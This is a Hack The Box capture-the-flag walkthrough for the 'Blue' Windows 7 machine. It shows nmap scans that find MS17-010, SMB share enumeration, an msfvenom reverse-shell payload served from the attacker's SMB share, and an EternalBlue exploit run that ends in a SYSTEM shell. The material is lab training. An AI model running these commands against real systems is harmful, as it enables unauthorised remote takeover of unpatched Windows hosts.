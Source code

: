 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.40 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 135,139,445,49152,49153,49154,49155,49156,49157

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.40 -p135,139,445,49152,49153,49154,49155,49156,49157
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:11 +07
Nmap scan report for 10.10.10.40
Host is up (0.27s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m56s, deviation: 34m36s, median: 14m02s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-05T05:26:21+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-05T04:26:20
|_  start_date: 2021-04-05T04:23:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.31 seconds
```

### Server Message Block

```
┌──(Hades㉿10.10.14.5)-[2.7:14.3]~/scripting
└─$ sudo nmap --script smb-vul* 10.10.10.40 -p 139,445
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:15 +07
Nmap scan report for 10.10.10.40
Host is up (0.28s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 16.97 seconds
```

Enum using `smbmap` without add user guest, I have nothing.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
```

Adding user guest to tools, it's work now.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40 -u guest
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

## Foothold

### EternalBlue

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/blue)

I drop an exploit `cmd.py` at [Legacy box](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy). Copy and run it for Blue.

Create shell.exe file to open reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f exe > shell.exe
```

Open smb server in kali at folder contain file `shell.exe`.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.3]~
└─$ sudo smbserver.py public /home/kali/walkthrough/hackthebox/blue > /dev/null
```

Execute payload after modify the `USERNAME = 'guest'`. 

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~/walkthrough/hackthebox/blue
└─$ sudo python cmd.py 10.10.10.40 '\\10.10.14.5\public\shell.exe' > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.4]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```